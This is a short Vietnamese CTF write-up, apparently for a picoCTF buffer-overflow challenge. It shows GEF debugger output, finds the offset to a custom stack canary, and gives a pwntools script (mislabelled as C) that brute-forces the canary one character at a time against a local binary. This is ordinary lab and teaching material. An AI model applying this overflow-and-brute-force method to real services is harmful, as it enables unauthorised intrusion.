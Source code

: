 ```
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x804955c in vuln (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x804955c → vuln()
```

* Thấy được rằng chương trình thực sự bị tràn bộ đệm tuy nhiên `memcmp` sẽ check canary với nội dung ở file canary.txt (Do chạy ở local nên mình tạo một file canary.txt với nội dung là 'test')
* Check số offset đến canary
```
gef➤  pattern offset 0x61616171
[+] Searching for '71616161'/'61616171' with period=4
[+] Found at offset 64 (little-endian search) likely
```

* Do việc kiểm tra canary này chỉ so sánh các ký tự nên nếu đầu vào là `aaaa..(64 kí tự)..aaat` hoặc `aaa..(64 kí tự)..aaate` hoặc `aaa..(64 kí tự)..aaates` hoặc `aaa..(64 kí tự)..aaatest` thì vẫn có thể by pass.
* Tạo một chương trình để brute force canary bằng cách tìm từng chữ từ trái qua phải
```c
from pwn import *
import time

ch = "ABCDEFGHIKLMNOPQRSTUVWXYZabcdefghiklmnopqrstuvwxyz1234567890"
# host, port = "saturn.picoctf.net", 51122
canary = ""
size = 65


while (len(canary) < 4):
	for i in ch:
		tmp = canary
		tmp += i
		p = process("./vuln")
		# p = remote(host, port)
		p.recvuntil(b">")
		p.sendline(str(size))
		p.recvuntil(b">")
		p.sendline('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' + tmp)

		if ("Ok" in str(p.recvall())):
			size += 1
			canary = tmp
			break

		p.close()
		time.sleep(0.1)
	print(canary)
```
